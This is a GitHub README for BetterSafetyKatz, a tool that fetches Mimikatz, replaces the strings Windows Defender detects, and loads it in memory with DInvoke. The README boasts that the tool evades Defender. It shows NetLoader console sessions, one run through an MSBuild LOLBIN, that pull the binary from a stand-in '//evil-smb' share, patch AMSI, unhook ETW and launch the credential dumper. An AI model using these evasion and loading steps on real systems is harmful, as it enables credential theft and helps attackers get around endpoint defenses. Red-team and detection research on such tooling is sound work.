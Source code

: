 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses SharpSploit DInvoke to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using SharpSploit 1.6 DInvoke, bypassing API hooking.(https://thewover.github.io/Dynamic-Invoke/)

Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.  

## Detected?

BetterSafetyKatz is NOT (21.06.2020) currently detected by windows defender, when that happens, BetterSafetyKatz can be deployed using [NetLoader](https://github.com/Flangvik/NetLoader), this will keep bypassing common AV solutions such as Windows Defender.

	PS D:\Projects\NetLoader> .\NetLoader.exe --path //evil-smb/bins/BetterSafetyKatz.exe --args coffee
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	
Or via the NetLoader MSBuild LOLBIN

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> n
	[?] Input path or url -> //evil-smb/bins/BetterSafetyKatz.exe
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> coffee
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Suicide burn before CreateThread!

	  .#####.   68ZIE9AI 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "I45FONZV6HINDTWWCMW" - (HVTPW)
	 ## / \ ##  /*** F9FCR04M16WWWI `7SG36P16CR` ( GKMPJ36E@7SG36P16CR.com )
	 ## \ / ##       > http://blog.7SG36P16CR.com/68ZIE9AI
	 '## v ##'       FI7NFZ4XC3AJPVJ             ( JUEZ6AM590TQM1Q7NX6675W0 )
	  '#####'        > 8GPZN7NSKR7J2QHBC8U2I / Y14PE2OPZ62A7LF9UP91WYX   ***/

	68ZIE9AI #
	

